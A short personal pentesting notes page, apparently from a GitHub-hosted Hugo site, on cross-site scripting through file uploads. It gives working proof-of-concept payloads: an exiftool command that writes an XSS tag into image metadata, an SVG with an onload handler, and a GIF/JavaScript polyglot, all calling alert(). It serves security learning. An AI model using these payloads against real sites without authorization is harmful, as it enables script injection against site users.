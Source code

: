 +++
title = "XSS"
draft = false
+++

## <span class="org-todo todo TODO">TODO</span> XSS <span class="tag"><span class="xss">xss</span></span> {#xss}

XSS is where you get JS to run on a web application page.


### Methods {#methods}


#### Upload Based <span class="tag"><span class="upload">upload</span></span> {#upload-based}

I got alot of these from brutelogic.[^fn:1]

<!--list-separator-->

-  Filename <span class="tag"><span class="image">image</span></span>

    If the filename is reflected, name the file as an XSS payload

<!--list-separator-->

-  Metadata <span class="tag"><span class="image">image</span></span>

    Using the [exif]({{< relref "../../../../../pages/programming/20240106000240-exif.md" >}}) data, which might also be reflected one could put a XSS there

    ```shell
    exiftool -Artist=’ “><img src=1 onerror=alert(document.domain)>’ xss-test.jpeg
    ```

<!--list-separator-->

-  Content <span class="tag"><span class="image">image</span></span>

    If the application lets you upload SVG, which is a image type you can embded a payload in it

    ```xml
    <svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>
    ```

<!--list-separator-->

-  Source (Gif) based <span class="tag"><span class="image">image</span><span class="gif">gif</span></span>

    Save this as a .gif
    this has the [Magic Bytes]({{< relref "../../../../../pages/hacking/20240106000638-magic_bytes.md" >}}) for gif.

    ```text
    GIF89a/*<svg/onload=alert(1)>*/=alert(document.domain)//;
    ```

[^fn:1]: <https://brutelogic.com.br/blog/file-upload-xss/>
